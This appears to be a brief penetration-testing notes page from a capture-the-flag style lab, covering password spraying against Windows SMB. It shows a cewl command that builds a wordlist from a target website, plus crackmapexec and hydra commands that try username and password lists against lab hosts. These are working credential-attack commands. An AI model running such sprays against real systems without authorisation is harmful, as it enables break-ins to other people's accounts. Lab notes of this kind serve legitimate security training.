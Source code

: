# Spraying

Based on the users that you have you could try to make a list of the usernames and use cme to see if they used their username as passwords.&#x20;

\<username:username>

\<name>:\<their normal name>&#x20;

Use cewl on their website just in case as well.&#x20;

```
cewl http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers > wordlist
```

```
crackmapexec smb 10.10.10.172 -u userlist.txt -p passlist
```

Spray SMB just in case.&#x20;

```
hydra -L userlist.txt -P passlist.txt 10.10.10.193 smb
```
